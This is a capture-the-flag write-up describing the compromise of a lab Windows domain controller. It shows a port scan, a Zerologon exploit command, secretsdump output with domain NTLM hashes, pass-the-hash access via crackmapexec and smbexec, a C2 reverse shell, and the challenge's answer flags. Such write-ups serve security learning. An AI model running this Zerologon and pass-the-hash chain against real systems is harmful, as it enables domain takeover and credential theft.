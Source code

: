 ### Challenge description
FullPwn challenges don't have a description. We just get an IP address and are supposed to get user and root flag.

I got both user AND root flags for this challenge via unintended means.

A port scan shows we are dealing with a Windows AD machine:

```nmap
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-15 19:03:58Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: contempt.htb, Site: Default-First-Site-Name)
443/tcp   open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-07-15T19:05:27+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=contempt.htb/organizationName=Contempt
| Subject Alternative Name: DNS:nextcloud.contempt.htb
| Not valid before: 2023-05-18T17:43:41
|_Not valid after:  2073-05-18T17:53:41
|_http-title: Not Found
445/tcp   open  microsoft-ds      Windows Server 2016 Standard 14393 microsoft-ds (workgroup: CONTEMPT)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: contempt.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49669/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc             Microsoft Windows RPC
49719/tcp open  msrpc             Microsoft Windows RPC
57830/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: dc01
|   NetBIOS computer name: DC01\x00
|   Domain name: contempt.htb
|   Forest name: contempt.htb
|   FQDN: dc01.contempt.htb
|_  System time: 2023-07-15T12:04:49-07:00
```
It seems we have a Nextcloud instance on port 443:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5e32bc94-1c82-4941-9e9b-ef52d42c3442)

As I usually do, when first seeing a Domain Controller, I check for known vulnerabilities and a good one to check for is `zerologon`. We can do that easily using crackmapexec:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/6db62cb4-8165-4cb0-8f8a-577a930ef9f1)

It seems it is vulnerable. I cloned this repo: https://github.com/risksense/zerologon and tried to set an empty password for the DC.

```bash
./set_empty_pw.py DC01 contempt.htb
```
It took a bit of time, I was starting to think it was a false positive but we got there eventually. The exploit worked:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/269b3455-2d22-4dcd-ac00-2a622e429e84)

I used secretsdump.py to get all the hashes from the DC:

```bash
secretsdump.py -just-dc -no-pass DC01\$@contempt.htb
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6c8f447c25487adc9148b0a90036c6a8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d8d6f9644b7ef09c5c9d12d01a18bc7a:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
contempt.htb\svc-ldap:1104:aad3b435b51404eeaad3b435b51404ee:b6fa6cd30819a545a7f12a76b54b6e84:::
contempt.htb\seraphina.blake:1601:aad3b435b51404eeaad3b435b51404ee:2f320b121f6ae368a35ba9819e0d2516:::
contempt.htb\phoenix.reed:1602:aad3b435b51404eeaad3b435b51404ee:8213160e905b6817df4ee0c2c8b48e12:::
contempt.htb\cipher.stone:1603:aad3b435b51404eeaad3b435b51404ee:a5e12330358741a01370caf5dc316f86:::
contempt.htb\zero.summers:1604:aad3b435b51404eeaad3b435b51404ee:b8e7d7f4e6361c680c24f0a7bdd6e92a:::
contempt.htb\viper.hollow:1605:aad3b435b51404eeaad3b435b51404ee:744574681328753ff5c843b8d3c100a2:::
contempt.htb\matrix.cross:1606:aad3b435b51404eeaad3b435b51404ee:2c03a59578699559cc2940d712fd964d:::
contempt.htb\orion.swift:1607:aad3b435b51404eeaad3b435b51404ee:928e41a48e0597ec9747c7b6b9fd86db:::
contempt.htb\aria.frost:1608:aad3b435b51404eeaad3b435b51404ee:9d0827ca3f062bddb35f88bc5bf15158:::
contempt.htb\echo.rivers:1609:aad3b435b51404eeaad3b435b51404ee:a7be11b5be8bb84196edbd0e8c0bc9ea:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc-adfs$:1103:aad3b435b51404eeaad3b435b51404ee:b62f7224fe2c58991ed0b7f29fcb2734:::
[*] Kerberos keys grabbed
<snipped>
```

I was able to use the administrator's NTLM hash to confirm that the DC has been pwned.

```bash
crackmapexec smb contempt.htb -u administrator -H 6c8f447c25487adc9148b0a90036c6a8 --shares
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0ec4b7e0-611d-4771-973f-ccb7501cf8d4)

Interestingly enough, we don't see C$ or ADMIN$ shares writable or at all. But we do see NETLOGON. We can use `smbexec.py` to get a foothold and we must use `-share` flag to specify the share where we want our payload to be executed from:

```bash
smbexec.py contemp.htb/administrator@contempt.htb -hashes :6c8f447c25487adc9148b0a90036c6a8 -share NETLOGON
```

We get a semi-interactive shell and can read the administrator flag.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8f39bcda-1c7e-4a64-a814-dc4b02d47e1a)

HTB{good_d@y_For_PhiSH1N6_On_mARS}

### Privilege de-escalation?!

Curiously, we can't find the user flag anywhere via the shell we have. I wanted better access so I uploaded a Havoc C2 implant and got a reverse shell there. Then I executed the following command to recursively search for specific pattern in the entire filesystem:

```powershell
shell powershell -command "ls -fo -r \ -erroraction silentlycontinue | sls -pattern 'HTB{' -erroraction silentlycontinue"
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/69af9436-0123-4618-9471-06a014d06bd1)

After a while, we get the user flag out of a .vhdx file:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/89843c7b-8dfd-4f6f-bfc0-7c31264f29d6)

HTB{aDFs_K1LLcHAIn_put5_y0U_oN_clOuD9}

